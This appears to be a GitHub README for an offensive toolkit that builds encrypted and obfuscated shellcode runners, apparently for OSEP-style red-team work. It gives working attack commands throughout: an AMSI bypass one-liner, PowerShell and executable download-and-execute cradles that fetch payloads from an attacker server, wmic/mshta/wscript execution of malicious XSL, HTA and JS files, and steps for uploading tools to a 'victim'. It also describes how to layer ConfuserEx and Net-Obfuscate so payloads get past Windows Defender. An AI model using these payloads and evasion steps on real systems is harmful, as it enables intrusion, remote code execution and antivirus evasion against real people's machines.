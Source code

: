 # Description

## Usage

### Folders
| Name | Description |
| --- | --- |
| Templates | Containing Shellcode Runners with and without encryption in various formats. |
| payloads | Containing Shellcode Runners that can executed. |
| ConfuserEx | Compiled files of ConfuserEx GitHub project. |
| Net-Obfuscate | Compiled files of Net-Obfuscate GitHub project.|


### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Payload Example
When payload is generated with name ```shellcode_runner_assembly_FlsAlloc_marshal.exe```, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).

---
## Payload execution

### [+] Triple DES

The 3DES payloads are located under ```payloads/3DES/``` directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.

```
cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>
```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 

```
cmd> des_decryptor_embedded.exe
```

----

### [+] AMSI Bypass
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.

```
$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)
```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

**Execute AMSI Shellcode runner**
``` 
powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); 
``` 

#### Method 2
To unhook AMSI, I've used the project by **jfmaes - AmsiHooker** (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload ```unhook_amsi.exe``` and ```MinHook.NET.dll``` to victim. (Files located under ```payloads/AMSI/```)
2. ```unhook_amsi.exe http://<KALI>/shellcode_runner.exe```

---

### [+] Executing .XSL, .JS, .HTA

Under directory ```payloads/DotNetToJScript/```, you find three shellcode ruuners that generated with **DotNetToJScript** (https://github.com/tyranid/DotNetToJScript). 

**Executing .XSL shellcode runner**
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

**Executing .HTA shellcode runner**
```
mshta c:\users\public\shellcode_runner.hta
```

**Executing .JS shellcode runner**
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


### [+] ConfuserX + Net-Obfuscator

During my tests, I noticed that Windows Defender could detect payloads genereted by **ConfuserEx** (https://github.com/yck1509/ConfuserEx). For this reason, I combined ```ConfuserEx + Net-Obfuscator``` (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under ```payloads/XOR/``` and ```payloads/Caesar/``` directories, feed the **ConfuserEx** tool and subsequently the new obfuscated binaries are imported to **Net-Obfuscator**. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

**Example 1** - Execution of ```payloads/Caesar/shellcode_runner_assembly_numa.exe``` Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```
